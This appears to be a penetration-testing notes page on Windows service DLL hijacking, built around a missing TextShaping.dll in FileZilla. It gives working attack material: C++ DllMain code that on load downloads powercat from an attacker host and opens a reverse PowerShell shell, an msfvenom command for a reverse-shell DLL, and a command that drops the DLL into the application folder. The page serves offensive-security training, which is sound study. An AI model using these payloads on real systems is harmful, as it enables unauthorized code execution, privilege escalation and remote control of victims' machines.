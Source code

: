 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Service DLL Hijacking

This attack is similar to "[Service Binary Hijacking](service-binary-hijacking.md)" but instead of replacing the executable, it targets a  [DLL ](https://en.wikipedia.org/wiki/Dynamic-link\_library)the application relies on.

Another approach is hijacking the DLL search order, where Windows looks for the required DLLs in this sequence:

```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. Directories in the PATH environment variable.
```

## Exploiting a Missing DLL

List applications on the machine:

{% code overflow="wrap" %}
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
{% endcode %}

Do some research about an application which is vulnerable to DLL Hijacking.

The following example displays a Service which is vulnerable kind of this attack.

{% embed url="https://www.exploit-db.com/exploits/51267" %}
FileZilla DLL Hijacking Exploit
{% endembed %}

In the example above, the application attempts to load a DLL, but fails to find it in its directory. Instead, `TextShaping.dll` loads from the System directory (2th in the search order).

The following screenshot is from **Procmon**, showing the application's attempt to load `TextShaping.dll` from the The directory from which the application loaded.

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption><p>Procmon DLL attach failed</p></figcaption></figure>

### Attack Path

To exploit this, create a malicious DLL in the FileZilla directory so that when the application looks for the legitimate DLL, it loads the attacker’s version instead, executing malicious code.

### Creating The DLL

Using C++ it is possible to create `DLLMain` function which is responsible to execute code in the DLL life cycle:

{% code title="TextShaping.dll" overflow="wrap" %}
```cpp
#include <windows.h>
#include <string.h>

BOOL APIENTRY DllMain(HMODULE hModule,
	DWORD  ul_reason_for_call,
	LPVOID lpReserved
)
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:
	system("powershell -c \"IEX (New-Object System.Net.Webclient).DownloadString('http://<attacker_ip>/powercat.ps1'); powercat -c <attacker_ip> -p <attacker_port> -e powershell\"");
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```
{% endcode %}

Compile it:

```bash
x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll
```

Alternatively, use `msfvenom` to generate the DLL:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f dll -o TextShaping.dll
```

### Exploiting

Moving the DLL to the target directory:

```powershell
iwr -uri http://<attacker_ip>/TextShaping.dll -OutFile 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
```

Soon as the DLL will be attached the DLLMain function will execute.

## References

{% embed url="https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order" %}
Dynamic-link library search order
{% endembed %}

{% embed url="https://learn.microsoft.com/en-us/sysinternals/downloads/procmon" %}
Process Monitor
{% endembed %}
